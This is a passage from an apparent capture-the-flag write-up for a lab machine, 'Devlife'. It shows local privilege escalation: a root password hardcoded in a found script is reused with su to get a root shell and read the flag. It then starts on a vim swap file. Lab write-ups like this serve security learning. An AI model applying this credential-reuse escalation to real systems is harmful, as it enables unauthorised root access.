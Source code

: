
Looking at the file, it seems to have the root password:

    
    
    www-data@Devlife:/home/tedd/.env$ cat su.py 
    
    import pexpect
    child = pexpect.spawn('su root')
    child.expect ('Password:')
    child.sendline('teddyxy2019')
    child.expect('\$')
    child.sendline('whoami')
    

Unfortunately, it doesn’t run, as the `pexpect` module isn’t installed for
`python` or `python3`:

    
    
    www-data@Devlife:/home/tedd/.env$ python ./su.py 
    Traceback (most recent call last):
      File "./su.py", line 2, in <module>
        import pexpect
    ImportError: No module named pexpect
    www-data@Devlife:/home/tedd/.env$ python3 ./su.py 
    Traceback (most recent call last):
      File "./su.py", line 2, in <module>
        import pexpect
    ImportError: No module named 'pexpect'
    

Still, I can just `su` myself and get a root shell:

    
    
    www-data@Devlife:/home/tedd/.env$ su 
    Password: 
    root@Devlife:/home/tedd/.env# id
    uid=0(root) gid=0(root) groups=0(root)
    

And from there, `root.txt`:

    
    
    root@Devlife:~# cat root.txt 
    d360adc7...
    

## Beyond Root

### sudo.py.swp

#### vi

In the directory next to `su.py` is a file called `.sudo.py.swp`. This looks
like a `vi` or `vim` recovery file. These files are written periodically as a
user workings in `vi` in case the program crashed. If there is a graceful
exit, the swap file is deleted.
